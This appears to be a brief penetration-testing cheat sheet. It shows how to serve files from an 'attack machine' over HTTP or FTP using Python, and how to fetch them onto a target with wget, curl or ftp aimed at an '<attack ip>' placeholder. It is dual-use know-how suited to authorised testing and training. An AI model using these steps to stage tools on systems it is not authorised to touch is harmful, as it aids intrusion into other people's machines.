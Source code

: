 -- -
## Servers
-- -
#### HTTP
```bash
# on attack machine
sudo python -m http.server 80
python -m SimpleHTTPServer 80
```
#### FTP
```bash
python -m pyftpdlib 21
```
## Download
-- -
#### HTTP
```bash
# you can also open a browser using the attack ip and download from there.
wget http://<attack ip>
curl http://<attack ip> -o <filename> 
```
#### FTP
```bash
ftp <attack ip>
get <file>
```